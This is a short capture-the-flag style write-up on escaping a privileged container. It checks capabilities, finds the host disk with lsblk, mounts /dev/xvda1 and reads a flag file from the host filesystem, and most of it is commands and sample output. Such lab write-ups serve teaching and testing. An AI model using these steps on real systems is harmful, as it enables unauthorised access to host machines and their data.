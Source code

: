 WRITE-UPS

**Privileged container**

Identify capabilities with:
```console
capsh --print
```

search for mounting points with:

```console
lsblk
```

This will show you:

```console
root@98cc2350da20:~# lsblk
NAME    MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvda    202:0    0   10G  0 disk 
|-xvda1 202:1    0    9G  0 part /etc/hosts
|-xvda2 202:2    0    1K  0 part 
`-xvda5 202:5    0  975M  0 part [SWAP]
xvdh    202:112  0    1G  0 disk 
```

Now make a folder for mounting:

```console

mkdir /tmp/host

```

Then you can mount to host machine:

```console
mount /dev/xvda1 /tmp/host
```

Now you can simply cat the flag from host:

```console
cat /tmp/host/etc/flag.txt
```

